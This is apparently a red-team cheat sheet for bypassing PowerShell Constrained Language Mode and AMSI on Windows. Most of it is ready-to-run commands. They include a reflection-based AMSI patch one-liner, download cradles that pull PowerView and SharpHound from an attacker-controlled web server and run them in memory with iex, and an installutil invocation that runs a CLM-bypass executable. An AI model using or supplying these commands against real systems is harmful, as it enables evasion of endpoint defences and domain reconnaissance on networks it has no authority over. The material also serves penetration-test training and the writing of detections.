 # AMSI and Constrained Languages Mode Bypass

## Table of Content

* [Methode 1 - Constrained Languages Mode Bypass](#CLM)
* [Methode 2 - Manually AMSI Bypass](#AMSI)
* [Methode 3 - CLM Bypass to AMSI Bypass through text file](#AMSICLM)

## Methode 1 - Constrained Languages Mode Bypass<a name="CLM"></a>

The PowerShell execution policy restricts the execution of scripts, it can be easily bypassed with the built-in "Bypass" execution policy.

```PowerShell
C:\>powershell.exe -exec bypass
```

On Windows 7,8.1 and earlier versions of Windows 10, PowerShell version 2 was installed by default along with the most recent version of PowerShell.

On these systems, it may be possible to bypass constrained language mode by specifying version two of PowerShell (-v2) when starting the process.

The language mode of the current PowerShell sesion or prompt is always stored in the "$ExecutionContext.SessionState.LanguageMode" variable which can be displayed as follows : 

```PowerShell

PS C:\Users\student>$ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage

```

## Methode 2 - Manually AMSI Bypass.<a name="AMSI"></a>

1. Bypass AMSI

```PowerShell
PS C:\> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

2. Load remotely PowerView.ps1 inside memory (iex).

```PowerShell
PS C:\> (new-object system.net.webclient).downloadstring('http://Attacker:port/PowerView.ps1') | iex
```

3. Execute PowerView normally.


## Methode 3 - CLM Bypass to AMSI Bypass through text file.<a name="AMSICLM"></a>

1. Download the Source Code of CLM Bypass and compile it.

*  <a href="https://github.com/V0lk3n/OSEP-CheatSheet/tree/main/Bypasses/CLM%20Bypass">CLM Bypass</a>

2. Create a text file to bypass AMSI and import/execute the needed PowerShell script or whatever.

Example using SharpHound PowerShell Script and saving the output to log.txt file :
```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
iex((new-object system.net.webclient).downloadstring('http://192.168.X.X/SharpHound.ps1'))
Get-DomainComputer -Unconstrained >> "C:\Users\Public\log.txt"
```
3. Place the PowerShell script, and AMSI bypass text file in the same location and host them inside a web server.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~/]
└─$ ls                                                                                                                              1 ⨯
amsi-bypass-powershell.txt  PowerView.ps1
 
┌──(v0lk3n㉿K4l1-L1nux)-[~/]
└─$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

4. Execute the CLM Bypass exe on the target server using installutil to trigger the Uninstall function.

```PowerShell
PS C:\Users\Public> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U CLM-Bypass.exe
```

5. Read the log.txt file to get the script output.

